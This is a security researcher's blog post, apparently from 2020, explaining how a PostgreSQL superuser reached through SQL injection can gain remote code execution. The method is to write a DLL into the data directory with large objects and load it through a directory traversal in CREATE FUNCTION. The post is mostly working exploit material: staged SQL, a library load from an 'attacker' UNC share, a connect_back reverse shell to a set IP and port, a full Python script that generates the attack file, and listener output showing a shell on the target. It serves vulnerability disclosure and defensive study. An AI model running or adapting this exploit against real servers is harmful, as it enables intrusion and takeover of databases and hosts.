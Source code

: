 ```yaml
---
layout: post
title: "SQL Injection Double Uppercut :: How to Achieve Remote Code Execution Against PostgreSQL"
date: 2020-06-26 09:00:00 -0500
categories: blog
excerpt_separator: <!--more-->
---
```


<img class="excel" alt="Postgres" src="/assets/images/sql-injection-double-uppercut-how-to-achieve-remote-code-execution/pg.png">
<p class="cn" markdown="1">When I was researching exploit primitives for the SQL Injection vulnerabilities discovered in [Cisco DCNM](/blog/2020/01/14/busting-ciscos-beans-hardcoding-your-way-to-hell.html), I came across a generic technique to exploit SQL Injection vulnerabilties against a PostgreSQL database. When developing your exploit primitives, it's always prefered to use an *application technique*, that doesn't rely on some other underlying technology.</p>

<!--more-->

<p class="cn">TL;DR</p>

<p class="cn" markdown="1">*I share yet another technique to achieve remote code execution against PostgreSQL Database.*</p>

<p class="cn" markdown="1">An application technique would be the ability to compromise the database integrity and leverage the trust between the application code and the database. In the case of Cisco DCNM, I found 4 different techniques, 2 of which I blogged about (directory traveral and deserialization).</p>

## Prior Research

<p class="cn" markdown="1">Although I didn't know it at the time, [Jacob Wilkin](https://twitter.com/Jacob_Wilkin) had [reported a simpler approach](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5) to achieving code execution against PostgreSQL by (ab)using [copy from program](https://www.postgresql.org/docs/12/sql-copy.html). Recently, Denis Andzakovic also [detailed](https://pulsesecurity.co.nz/articles/postgres-sqli) his way of gaining code execution against PostgreSQL as well by (ab)using read/writes to the `postgresql.conf` file.</p>

<p class="cn" markdown="1">I was originally going to sit on this technique, but since Denis exposed the power of `lo_export` for exploitation, I figured one more nail on the coffin wouldn't hurt ;-></p>

<p class="cn" markdown="1">I did some testing and discovered that under windows, the NETWORK_SERVICE cannot modify the `postgresql.conf` file, so Denis's technique is *nix specific. However, his technique doesn't require stacked queries, making it powerful in certain contexts.</p>

## CREATE FUNCTION obj_file Directory Traversal

<div markdown="1" class="cn">
- CVE: N/A
- CVSS: 4.1 [(AV:N/AC:H/PR:H/UI:N/S:U/C:L/I:L/A:L)](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?calculator&version=3.0&vector=(AV:N/AC:H/PR:H/UI:N/S:U/C:L/I:L/A:L))
</div>

### Environment

<p class="cn" markdown="1">This technique works on both *nix and Windows but does require stacked queries since we are leveraging the [create function](https://www.postgresql.org/docs/12/sql-createfunction.html) operative.</p>

### Summary

<p class="cn" markdown="1">On the latest versions of PostgreSQL, the `superuser` is no longer allowed to load a shared library file from anywhere else besides `C:\Program Files\PostgreSQL\11\lib` on Windows or `/var/lib/postgresql/11/lib` on *nix. Additionally, this path is **not writable** by either the NETWORK_SERVICE or postgres accounts.</p>

<p class="cn" markdown="1">However, an authenticated database `superuser` can write binary files to the filesystem using "large objects" and can of course write to the `C:\Program Files\PostgreSQL\11\data` directory. The reason for this should be clear, for updating/creating tables in the database.</p>

<p class="cn" markdown="1">The underlying issue is that the `CREATE FUNCTION` operative allows for a directory traversal to the data directory! So essentially, an authenticated attacker can write a shared library file into the data directory and use the traversal to load the shared library. This means an attacker can get native code execution and as such, execute arbitrary code.</p>

### Attack Flow

<p class="cn" markdown="1">**Stage 1 -** We start by creating an entry into the `pg_largeobject` table.</p>

```sql
select lo_import('C:/Windows/win.ini', 1337);
```

<p class="cn" markdown="1">We could have easily used a UNC path here (and skip step 3), but since we want a platform independant technique, we will avoid this.</p>

<p class="cn" markdown="1">**Stage 2 -** Now we modify the `pg_largeobject` entry to contain a complete extension. This extension needs to be compiled against the exact major version of the target PostgreSQL database as well as matching its architecture.</p>

<p class="cn" markdown="1">For a file that is > 2048 bytes in length, the `pg_largeobject` table uses the `pageno` field. So we must break our file up into chunks of size 2048 in bytes.</p>

```sql
update pg_largeobject SET pageno=0, data=decode(4d5a90...) where loid=1337;
insert into pg_largeobject(loid, pageno, data) values (1337, 1, decode(74114d...));
insert into pg_largeobject(loid, pageno, data) values (1337, 2, decode(651400...));
...
```

<p class="cn" markdown="1">It maybe possible to skip stage 1 (and only performing a single statement execution for stage 2) by using [object identifier types](https://www.postgresql.org/docs/8.1/datatype-oid.html) within PostgreSQL, but I have not had the time to confirm this.</p>

<p class="cn" markdown="1">**Stage 3 -** Now we can write our binary into the data directory. Remember, we can't use traversals here since that is checked, but even if we could, strict file permissions for the NETWORK_SERVICE account exist and we have limited options.</p>

```sql
select lo_export(1337, 'poc.dll');
```

<p class="cn" markdown="1">**Stage 4 -** Now, let's trigger the loading of the library.</p>

<p class="cn" markdown="1">I demonstrated in a class I taught a few years back that you can use fixed paths (including UNC) to load extensions against PostgreSQL version 9.x, thus gaining native code execution. [@zerosum0x0](https://twitter.com/zerosum0x0) [demonstrated this](https://zerosum0x0.blogspot.com/2016/06/windows-dll-to-shell-postgres-servers.html) by using the file write technique with a fixed path on the filesystem. But back then, permissions on the filesystem were not as restrictive.</p>

```sql
create function connect_back(text, integer) returns void as '//attacker/share/poc.dll', 'connect_back' language C strict;
```

<p class="cn" markdown="1">However, a few years passed and the PostgreSQL developers decided to block fixed paths and alas, that technique is now dead. But we can simply traverse from the lib directory and load our extension! The underlying code of the `create function` appends the `.dll` string, so don't worry about appending it:</p>

```sql
create function connect_back(text, integer) returns void as '../data/poc', 'connect_back' language C strict;
```

<p class="cn" markdown="1">**Stage 5 -** Trigger your reverse shell.</p>

```sql
select connect_back('192.168.100.54', 1234);
```
			
### Things to consider

<div markdown="1" class="cn">
- You can also load DllMain, but pwning your error log is a one way ticket to detection!
- As mentioned, you will need to compile the dll/so file using the same PostgreSQL version including architecture.
- You can download the extension I used [here](https://github.com/sourceincite/tools/blob/master/pgpwn.c) but you will need to compile it yourself.
</div>

### Fun Facts

<p class="cn" markdown="1">ZDI initially aquired this case but never published an advisory and I was later told that the vendor wasn't patching the issue since it's considered a *feature not a bug*.</p>

### Automation

<p class="cn" markdown="1">This code will generate a poc.sql file to run on the database as the superuser. Example:</p>

```
steven@pluto:~/postgres-rce$ ./poc.py 
(+) usage ./poc.py <connectback> <port> <dll/so>
(+) eg: ./poc.py 192.168.100.54 1234
steven@pluto:~/postgres-rce$ ./poc.py 192.168.100.54 1234 si-x64-12.dll
(+) building poc.sql file
(+) run poc.sql in PostgreSQL using the superuser
(+) for a db cleanup only, run the following sql:
    SELECT lo_unlink(l.oid) FROM pg_largeobject_metadata l;
    DROP FUNCTION connect_back(text, integer);
steven@pluto:~/postgres-rce$ nc -lvp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 192.168.100.122 49165 received!
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Program Files\PostgreSQL\12\data>whoami
nt authority\network service

C:\Program Files\PostgreSQL\12\data>
```

```py
#!/usr/bin/env python3
import sys

if len(sys.argv) != 4:
    print("(+) usage %s <connectback> <port> <dll/so>" % sys.argv[0])
    print("(+) eg: %s 192.168.100.54 1234 si-x64-12.dll" % sys.argv[0])
    sys.exit(1)

host = sys.argv[1]
port = int(sys.argv[2])
lib = sys.argv[3]
with open(lib, "rb") as dll:
    d = dll.read()
sql = "select lo_import('C:/Windows/win.ini', 1337);"
for i in range(0, len(d)//2048):
    start = i * 2048
    end   = (i+1) * 2048
    if i == 0:
        sql += "update pg_largeobject set pageno=%d, data=decode('%s', 'hex') where loid=1337;" % (i, d[start:end].hex())
    else:
        sql += "insert into pg_largeobject(loid, pageno, data) values (1337, %d, decode('%s', 'hex'));" % (i, d[start:end].hex())
if (len(d) % 2048) != 0:
    end   = (i+1) * 2048
    sql += "insert into pg_largeobject(loid, pageno, data) values (1337, %d, decode('%s', 'hex'));" % ((i+1), d[end:].hex())

sql += "select lo_export(1337, 'poc.dll');"
sql += "create function connect_back(text, integer) returns void as '../data/poc', 'connect_back' language C strict;"
sql += "select connect_back('%s', %d);" % (host, port)
print("(+) building poc.sql file")
with open("poc.sql", "w") as sqlfile:
    sqlfile.write(sql)
print("(+) run poc.sql in PostgreSQL using the superuser")
print("(+) for a db cleanup only, run the following sql:")
print("    select lo_unlink(l.oid) from pg_largeobject_metadata l;")
print("    drop function connect_back(text, integer);")
```

## References

<div markdown="1" class="cn">
- [https://zerosum0x0.blogspot.com/2016/06/windows-dll-to-shell-postgres-servers.html](https://zerosum0x0.blogspot.com/2016/06/windows-dll-to-shell-postgres-servers.html)
- [https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)
- [https://pulsesecurity.co.nz/articles/postgres-sqli](https://pulsesecurity.co.nz/articles/postgres-sqli)
</div>
